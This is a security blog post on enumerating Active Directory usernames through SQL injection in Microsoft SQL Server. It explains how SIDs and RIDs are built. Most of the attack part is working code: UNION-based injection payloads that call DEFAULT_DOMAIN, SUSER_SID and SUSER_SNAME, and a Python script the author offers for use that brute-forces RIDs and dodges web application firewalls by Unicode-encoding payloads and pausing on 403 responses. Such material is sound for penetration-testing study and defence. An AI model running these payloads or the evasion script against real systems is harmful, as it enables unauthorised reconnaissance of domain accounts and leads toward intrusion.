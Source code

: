[back](/)

### Username enumeration via SQL injection

Each account or group in the Active Directory has its own security identifier or (SID), which also includes a relative identifier (RID).

What are they needed for ? Windows operating system differentiates the rights in the Active Directory domain of a particular user, thanks to these identifiers, this is extremely important.

![Image](/img/username_enum-from-sqli/3.png)

Imagine that you are migrating from one domain to another, for example from **source.local** to **destination.local**, then the user's SID and RID will be changed. How exactly to preserve the rights of the user who is associated with security groups and a specific SID/RID ?

Naturally it will be changed during domain migration. The fact is that the access token is generated based on all previously created identifiers, including those that were previously assigned to the user. This is how the user's access token to objects is formed.

The SID/RID consists of several components shown in the diagram:

![Image](/img/username_enum-from-sqli/5.jpg)

To find out the SID in a specific domain it is enough to execute the DEFAULT_DOMAIN () MSSQL query, and than using the resulting identifier mask, you can enumerate usernames. Given this access model there is an interesting opportunity for an attacker who found an injection in the MSSQL database.

```markdown
123' union select 1,2,3,4, DEFAULT_DOMAIN() as mydomain -- 1
```

![Image](/img/username_enum-from-sqli/11.png)

Using the SUSER_SID and SUSER_SNAME queries, it is possible to enumerate usernames in the domain:

```markdown
123' union select 1,2,3,4,(select (select stuff(upper(sys.fn_varbintohexstr((SELECT SUSER_SID('YOURDOMAIN\Domain Admins')))), 1, 2, ''))) -- 1
123' union select 1,2,3,4,SUSER_SNAME(0x0105000000000005150000001C00D1BCD181F1492BDFC236F4010000) -- 1
```

![Image](/img/username_enum-from-sqli/6.png)

![Image](/img/username_enum-from-sqli/7.png)

Knowing the structure of the SID and the process of generating RID, you can select 8 bytes related to RID and get a list of usernames in the AD. I wrote a small script to help you do this. It contains WAF bypass elements associated with the waiting time. It also converts each payload character to Unicode, which indicates a non-standard injection:

```markdown
#!/usr/bin/python3

import requests
import time
from requests.exceptions import HTTPError
from termcolor import colored

def convert_to_unicode(char):
 code = hex(ord(str(char)))[2:]
 prefix = "0" * (4 - len(code))
 return f'\\u{prefix}{code}'

def sqli_post(rid):
 val = "123' union select 1,2,3,4,SUSER_SNAME(0x0105000000000005150000001C00D1BCD181F1492BDFC236"+r+") -- 1"
 res = ""
 for el in val:
  res += convert_to_unicode(el)
 response = requests.post(url, data='{"name":"'+res+'"}', headers = {"Content-Type":"application/json;charset=utf-8"})
 if "403 - Forbidden: Access is denied." in response.text:
  print(colored("[-] Sleeping and WAF cooldown", "red"))
  time.sleep(60)
 if "\\" in response.text:   
  print(colored("[+]"+response.text+"\r\nRID: "+r,"green"))


for url in ['http://10.10.10.10/api/getSOMETHING']:
 try:
  for i in range(500,4000):
   q = hex(i)[2:]
   w = q[1:]
   e = w+"0"+q[:1]
   r = e+"0"*(8-len(e))
   sqli_post(r)

  for i in range(6001,6010):
   q = hex(i)[2:]
   w = q[2:]
   e = q[:2]
   r = w+e+"0"*(8-len(q))
   sqli_post(r)


 except HTTPError as http_err:
  print(f'HTTP error occurred: {http_err}')
 except Exception as err:
  print(f'Other error occurred: {err}')
 else:
  
  print('Success!\r\n')
```

The result will please you =)

![Image](/img/username_enum-from-sqli/12.png)

![Image](/img/username_enum-from-sqli/2.png)

To get a positive enumeration result, start with a sequential enumeration using these queries:

```markdown
123' union select 1,2,3,4,5 -- 1
123' union select 1,2,3,4,@@version -- 1
123' union select 1,2,3,4, DEFAULT_DOMAIN() as mydomain -- 1
123' union select 1,2,3,4,(select (select stuff(upper(sys.fn_varbintohexstr((SELECT SUSER_SID('YOURDOMAIN\Domain Admins')))), 1, 2, ''))) -- 1
```

For detailed information about the RID pool, you can use the following command:

```markdown
dcdiag / test: ridmanager / v
```

![Image](/img/username_enum-from-sqli/9.png)

It will show the current status of the RID pool, the maximum possible pool, and the next RID that will be assigned to the domain user.

This method is especially effective if you do not have access to the remote call procedure through the **rpcclient** as well as a valid account in the domain:

![Image](/img/username_enum-from-sqli/10.png)

These articles will help you explore the issue in more detail:

[enumerating-domain-accounts](https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/)

[how-to-check-the-rid-pool-in-active-directory](https://www.windowstechno.com/how-to-check-the-rid-pool-in-active-directory/)

[varbinary-to-literal-varchar-copy-in-sql-server-2005](https://stackoverflow.com/questions/6424328/varbinary-to-literal-varchar-copy-in-sql-server-2005)

[security-identifiers](https://docs.microsoft.com/ru-ru/windows/security/identity-protection/access-control/security-identifiers)

<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)



